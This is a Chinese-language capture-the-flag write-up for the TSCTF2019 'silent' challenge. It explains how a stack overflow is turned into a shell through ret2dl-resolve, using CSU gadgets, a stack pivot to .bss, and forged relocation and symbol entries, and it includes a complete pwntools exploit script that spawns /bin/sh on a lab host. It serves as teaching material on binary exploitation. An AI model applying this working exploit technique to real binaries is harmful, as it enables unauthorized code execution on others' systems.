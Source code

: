 ```yaml
---
title: silent
categories:
- TSCTF2019
---
```

# tsctf2019->silent

## 程序逻辑

程序中没有给泄露地址的函数，但是给了*(0x601008+0x1c8) = 0这个提示，说明需要用ret2-dl-resolve。

vuln有溢出，可以多写0x60个字节

![main](./1.jpg)

![vuln](./2.jpg)

## 漏洞利用

这里的rop链用csu gadgets构造，但是栈溢出的长度不够(少0x18个字节)，导致最后没法ret到bss_addr。这里可以观察vuln停在leave时候寄存器的状态，rbx = 0，之后执行
```x86asm
mov rsp,rbp
pop rbp
```
如果我们把rbp置为p64(1)即可省去0x10个字节，这是一个技巧。另外可以用retn to vuln来执行二次构造，第一次的rop负责输入r12、r13、r14和r15，第二次的rop负责mov并执行，最后用
```x86asm
pop rbp,bss_stage-8
ret
leave
ret
```
去执行bss_stage的代码

buf的结构如下：
```py
buf = p64(pop_rdi_ret) + p64(addr_cmd)
buf += p64(plt0) + p64(index_offset)
buf = buf.ljust(0x300,'b')
buf += fake_rel
buf = buf.ljust(0x340,'b')
buf += 'c'*padding
buf += fake_sym
buf += 'system\x00'
buf += '/bin/sh\x00'
buf = buf.ljust(0x500,'b')
```
即先将'/bin/sh\x00'读到rdi里以作为system的参数，之后plt0调用push，jmp的命令去link_map，index_offset为fake_rel与rel_plt的距离除以0x18，为了方便，我挑了一个不需要填充的fake_rel。

plt0找到fake_rel后通过r_info找到fake_sym，这里同样要除以0x18，这是和32位的不同，r_info的构造方式如下：
```py
r_info = (((fake_sym_addr - dynsym) / 0x18) << 0x20) | 0x7
```
这里为了方便我的fake_sym_addr也选择了一个不需要填充的地址。
r_offset选择elf.got['__libc_start_main']，这是之后system会覆盖的函数地址,r_addend为0，fake_rel结构如下：
```py
fake_rel = p64(r_offset) + p64(r_info) + r_addend
```

找到fake_sym之后，dl_reovel_runtime会根据其st_name字段找到需要执行的函数名，这里是'system'，寻址方式是字符串地址 - dynstr段地址，fake_sym的结构如下
```py
fake_sym = p32(st_name) + p32(0x12) + p64(0) * 2
```

## exp.py

```py
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
from pwn import log
from pwn import remote
from pwn import ELF
debug = 0
offset = 0x78
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']

rop = ROP('./silent')
addr_stage = rop.section('.bss') + 0x1000
print 'addr stage => ' + hex(addr_stage)
ptr_ret = rop.search(rop.section('.fini'))
'''
buf = rop.retfill(offset)
buf += rop.call_chain_ptr(
    ['read', 0, addr_stage, 400]
, pivot=addr_stage)
#log.success('first data => ' + repr(buf))
print len(buf)
'''
csu_end_addr = 0x40060c
csu_begin_addr = 0x4005f0
pop_ebp_ret = 0x400490
leave_ret_addr = 0x40054a
ret_addr = 0x4003e1
pop_rdi_ret = 0x400613
#payload = 'a'*5 + 'b'*0x78 + p64(csu_end_addr) + p64(0) + p64(1) + p64(0x601018) + p64(0x190) + p64(addr_stage) + p64(0)
#payload += p64(cus_begin) + 'a'*8 + p64(0) + '\x38\x14\x60'
elf = ELF('./silent')

if debug:
    p = process('./silent')
    gdb.attach(p,'b *0x40054a')
    pass
else:
    p =remote('10.112.100.47',8001)
vuln_addr = 0x400526
read_got = 0x601018
addr_link_map = 0x601008                                                                                                                          
addr_dt_debug = addr_link_map + 0x1c8
payload = 'a'*0x30+p64(addr_stage)+'a'*0x38+p64(1)+p64(csu_end_addr) + p64(0x601018) + p64(0x500) + p64(addr_stage) + p64(0)#0xb0
payload += p64(vuln_addr)#0xb8
p.send(p64(read_got)[:-1])
#p.send(p32(len(buf))+'a'+buf)
p.send(payload)
#seoncd
payload = "x"*0x70 + p64(1) + p64(csu_begin_addr)+'a'*0x38+p64(pop_ebp_ret)+p64(addr_stage-8)+p64(leave_ret_addr)
raw_input()
p.send(payload)

#print "[+] read: %r" % p.read(len(buf))
#addr_link_map = p.read_p64()
'''
buf = rop.call_chain_ptr(
    ['read', 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+400]
)
buf += rop.dl_resolve_call(addr_stage+300)
buf += rop.fill(300, buf)
buf += rop.dl_resolve_data(addr_stage+300, 'system')
buf += rop.fill(400, buf)
buf += rop.string('/bin/sh')
buf += rop.fill(420, buf)
'''
plt0 = 0x4003f0
rel_plt = 0x400398
log.success('rel_plt => ' + hex(rel_plt))
dynsym = 0x4002B8
log.success('dynsym => ' + hex(dynsym))
dynstr = 0x400318
log.success('dynstr => ' + hex(dynstr))
#
#addr_stage 0x602040
main_got = elf.got['__libc_start_main']
fake_rel_addr = addr_stage + 0x300
fake_sym_addr = addr_stage + 0x340
index_offset = (fake_rel_addr - rel_plt) / 0x18#fake index of rel
r_offset = main_got
r_addend = p64(0)
index_dynsym = (fake_sym_addr - dynsym) 
padding = 0x18 - ((fake_sym_addr-dynsym) % 0x18)
fake_sym_addr += padding
##
fake_str_addr = fake_sym_addr + 24
##
r_info = (((fake_sym_addr - dynsym) / 0x18) << 0x20) | 0x7
fake_rel = p64(r_offset) + p64(r_info) + r_addend
cmd = '/bin/sh'
addr_cmd = fake_str_addr + 7
st_name = fake_str_addr - dynstr
fake_sym = p32(st_name) + p32(0x12) + p64(0) * 2
buf = p64(pop_rdi_ret) + p64(addr_cmd)
buf += p64(plt0) + p64(index_offset)
buf = buf.ljust(0x300,'b')
buf += fake_rel
buf = buf.ljust(0x340,'b')
buf += 'c'*padding
buf += fake_sym
buf += 'system\x00'
buf += '/bin/sh\x00'
buf = buf.ljust(0x500,'b')
p.send(buf)
raw_input()
p.interactive()

```
